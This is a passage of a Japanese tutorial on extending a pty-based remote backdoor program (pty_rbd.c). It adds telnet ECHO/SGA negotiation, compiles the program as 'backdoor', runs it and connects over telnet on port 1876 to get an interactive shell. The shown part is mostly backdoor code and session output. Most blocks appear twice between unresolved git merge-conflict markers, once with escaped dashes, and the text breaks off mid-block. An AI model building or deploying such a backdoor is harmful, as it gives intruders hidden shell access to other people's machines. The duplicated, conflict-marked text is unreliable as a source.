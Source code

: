 IAC WILL SGA
0xff 0xfb 0x03
<<<<<<< HEAD
-----
=======
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　となります。

　実際に試してみます。
<<<<<<< HEAD
　0x05で、書いたpty_rbd.cの-(3)-のところに以下の処理を追加します。

-----  pty_rbd.c-(3)-
=======
　0x05で、書いたpty_rbd.cの\-(3)\-のところに以下の処理を追加します。

\-\-\-\-\-  pty_rbd.c\-(3)\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
  send(client, "\xff\xfb\x01", 3, 0); // ECHOの有効を知らせる
  recv(client, buff, 16, 0);           // 空読み
  send(client, "\xff\xfb\x03", 3, 0); // SGAの有効を知らせる
  recv(client, buff, 16, 0);           // 空読み
<<<<<<< HEAD
/* --- pty_rbd.c-(3)- へ追加 --- */
-----
=======
/* \-\-\- pty_rbd.c\-(3)\- へ追加 \-\-\- */
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　recv()は、サーバ側がオプションを要求するとクライアントがなんらかの返事
をするので、それを空読みしています。本当は、それを調べてオプションが有効
になったのかを判断する必要があるのですが、拒否されることはないだろうとい
うことで空読みです。Linuxのtelnetコマンド、Windowsのtelnet.exe、TeraTerm
のotherモードでは上記の方法でうまく設定することができました。

　実際に試してみます。

<<<<<<< HEAD
-----
$ gcc pty_rbd.c -lutil -o backdoor
=======
\-\-\-\-\-
$ gcc pty_rbd.c \-lutil \-o backdoor
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
$ ./backdoor &
[2] 1782
$ telnet localhost 1876
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
<<<<<<< HEAD
sh-2.05$ id
uid=500(pain) gid=500(pain) 所属グループ=500(pain)
sh-2.05$ emacs -nw test.c
..
sh-2.05$ vi test.c
..
sh-2.05$ passwd
=======
sh\-2.05$ id
uid\=500(pain) gid\=500(pain) 所属グループ\=500(pain)
sh\-2.05$ emacs \-nw test.c
..